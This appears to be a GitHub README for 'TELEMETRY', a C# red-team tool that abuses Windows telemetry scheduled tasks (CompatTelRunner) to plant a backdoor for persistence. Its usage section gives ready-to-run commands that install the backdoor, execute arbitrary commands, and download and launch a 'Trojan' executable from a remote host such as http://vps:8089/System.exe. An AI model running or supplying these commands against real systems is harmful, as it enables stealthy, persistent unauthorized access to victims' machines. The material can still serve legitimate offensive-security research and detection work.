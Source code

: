 "# TELEMETRY\n\n\n### Background\n\n[TELEMETRY](#TELEMETRY-1) is a C# For Windows PERSISTENCE\n\nToday we\u2019re going to talk about a persistence method that takes advantage of some of the wonderful telemetry that Microsoft has included in Windows versions for the last decade. \n\n- **Local admin rights to install (requires the ability to write to HKLM)**\n- **Have CompatTelRunner.exe**\n- **2008R2/Windows 7 through 2019/Windows 10**\n\n### Advantage\n\n- **Using the system's own Telemetry planned tasks**\n- **Only registry suspicious backdoor troubleshooting**\n\n### Command Line Usage\n\n        ABUSING WINDOWS TELEMETRY FOR PERSISTENCE\n                                                 .Imanfeng\n        Features:\n            Install:   -   Deployment authority maintains backdoor\n    \n        Command:\n            TELEMETRY.exe install /command:calc\n            -   Execute command without file backdoor\n    \n            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe /path:C:\\Windows\\Temp\\check.exe\n            -   Remotely download Trojan files to the specified directory for backdoor startup\n    \n            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe\n            -   Remotely download Trojan files to C:\\\\Windows\\\\Temp\\\\compattelrun.exe for backdoor startup\n    \n            TELEMETRY.exe install /path:C:\\Windows\\Temp\\check.exe\n            -   Set path Trojan files for backdoor startup\n    \n        Parameter:\n            /command: -   Execute Command\n            /url:     -   Download FROM\n            /path:    -   Download To\n\n- Execute command without file backdoor\n\n  ```\n  Telemetry.exe install /command:calc\n  ```\n\n  ![1](PIC/2.png)\n\n  \n\n- Remotely download Trojan files for backdoor startup\n\n  ```\n  Telemetry.exe install /url:http://vps:8089/System.exe\n  ```\n\n  ![2](PIC/1.png)\n\n  \n\n### Learn\n\nhttps://www.trustedsec.com/blog/abusing-windows-telemetry-for-persistence/\n"